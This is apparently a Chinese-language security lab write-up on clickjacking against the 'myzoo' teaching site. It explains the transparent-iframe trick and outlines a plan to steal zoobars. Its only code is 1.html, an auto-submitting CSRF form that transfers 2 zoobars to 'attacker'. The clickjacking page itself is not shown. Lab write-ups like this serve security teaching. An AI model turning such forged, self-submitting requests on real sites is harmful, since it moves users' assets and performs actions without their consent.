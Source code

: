 ﻿---
layout: post
title: InfoSec:ClickJacking
category: InfoSec_LAB
description: InfoSec:ClickJacking
published: true
---

## 实验介绍
clickjacking（点击劫持）是通过在页面上覆盖一层透明的iframe，诱导用户点击网页，实际上点击的是透明的iframe，从而达到一些攻击的目的，原理十分简单

![image.png-130.5kB][1]

本次实验依然使用myzoo，通过构建一个clickjacking网站偷取用户zoobar


## 实验平台
Ubuntu 16.04 虚拟机
FireFox 浏览器

## 实验步骤
### 实验网站
[下载地址](https://github.com/WindMelon/Myzoo/tree/master)
[环境配置](https://www.cnblogs.com/pualus/p/6829644.html)

### 基本思路

- 构造一次失败的CSRF攻击网页1.html
- 将CSRF网页加到2.html的iframe中
- 在2.html中完成clickjacking

**1.html**
```
<html>

<head>

</head>

<body>

<form method=POST name=transferform

  action="http://www.myzoo.com/transfer.php" id="form">

<input name=zoobars type=hidden value="2">

<input name=recipient type=hidden value="attacker">

<input type=hidden name=submission value="Send">

</form>

</body>

<script>

  var form = document.getElementById('form');

  form.submit();

</script>
```

  [1]: http://static.zybuluo.com/windmelon/pfoimcshxnl1gfkp6zc2la2j/image.png
  [2]: http://static.zybuluo.com/windmelon/2pron2ttutb39qgqlt0pv2ot/image.png
  [3]: http://static.zybuluo.com/windmelon/s9ps65j0l9vfset9n2lp7nim/image.png
  [4]: http://static.zybuluo.com/windmelon/cwxt5j0o791uhbnaph5nnnzn/image.png